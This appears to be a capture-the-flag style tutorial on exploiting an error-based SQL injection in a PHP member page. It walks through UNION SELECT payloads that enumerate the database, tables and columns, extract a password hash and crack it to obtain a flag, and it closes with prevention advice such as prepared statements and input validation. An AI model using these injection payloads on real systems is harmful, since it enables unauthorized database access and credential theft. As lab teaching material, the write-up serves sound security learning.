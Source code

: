 # Exploiting Error-Based SQL Injection Vulnerability

Introduction
This tutorial details how to exploit an error-based SQL injection vulnerability in a web application. This technique leverages SQL error messages to extract information from the database.

Prerequisites
- Basic understanding of SQL
- Access to the vulnerable web application
- A web browser
- Optional: A tool like Burp Suite to facilitate testing

Step 1: Identifying the Vulnerability

1. Access the vulnerable page:
```
http://[address]/index.php?page=member
```

2. Test for SQL errors by inserting special characters like a single quote (') in parameters.
If you see SQL error messages, the page is likely vulnerable.

Step 2: Determining Column Count

1. Use the ORDER BY clause to determine the number of columns:
```sql
1 order by 1  -- Works
1 order by 2  -- Works
1 order by 3  -- Error
```
The error on "order by 3" indicates the query uses 2 columns.

Step 3: Gathering Database Information

1. Retrieve the database name:
```sql
1 union all select 1,database()
```
Result: "Member_Sql_Injection"

2. Check MySQL version:
```sql
1 union all select 1,version()
```
Result: "5.5.44-0ubuntu0.12.04.1"

Step 4: Exploring the Structure

1. Identify tables:
```sql
1 union all select 1,group_concat(table_name) 
from Information_schema.tables 
where table_schema=database()
```
Result: table "users"

2. Retrieve column names:
```sql
1 union all select 1,group_concat(column_name) 
from Information_schema.columns 
where table_name=0x7573657273
```
Note: 0x7573657273 is "users" in hexadecimal

Result: "user_id,first_name,last_name,town,country,planet,Commentaire,countersign"

Step 5: Data Extraction

1. Read the comment:
```sql
1 union all select 1,group_concat(Commentaire,0x0a) 
from users
```
Result: "Decrypt this password -> then lower all the char. Sh256 on it and it's good !"

2. Retrieve the encrypted password:
```sql
1 union all select 1,group_concat(countersign,0x0a) 
from users
```
Result: "5ff9d0165b4f92b14994e5c685cdce28"

Step 6: Decryption and Finalization

1. Decrypt the MD5 hash (use a service like md5decrypt.net)
Result: "FortyTwo"

2. Convert to lowercase:
"fortytwo"

3. Generate SHA256 hash:
```bash
echo -n fortytwo | shasum -a 256
```
Final flag: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

Protection and Prevention

To protect an application against SQL injections:

1. Use prepared statements:
```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE id = ?");
$stmt->execute([$userId]);
```

2. Escape user inputs:
```php
$safeInput = mysqli_real_escape_string($connection, $userInput);
```

3. Implement strict input validation:
```php
if (!preg_match("/^[0-9]+$/", $userInput)) {
    die("Invalid input");
}
```

4. Configure error messages properly:
In php.ini:
```
display_errors = Off
log_errors = On
```

Additional Security Measures:

1. Database Security
- Use principle of least privilege for database users
- Regularly update database software
- Enable SSL/TLS for database connections

2. Application Security
- Implement WAF (Web Application Firewall)
- Use HTTPS throughout the application
- Implement proper session management
- Regular security audits and penetration testing

3. Monitoring and Logging
- Implement comprehensive logging
- Monitor for suspicious database activity
- Set up alerts for potential SQL injection attempts

Conclusion

This vulnerability emphasizes the importance of secure handling of user inputs and proper error message configuration. Developers must always use prepared statements and implement rigorous input validation to prevent SQL injections. Regular security audits and staying updated with security best practices are essential for maintaining a secure application.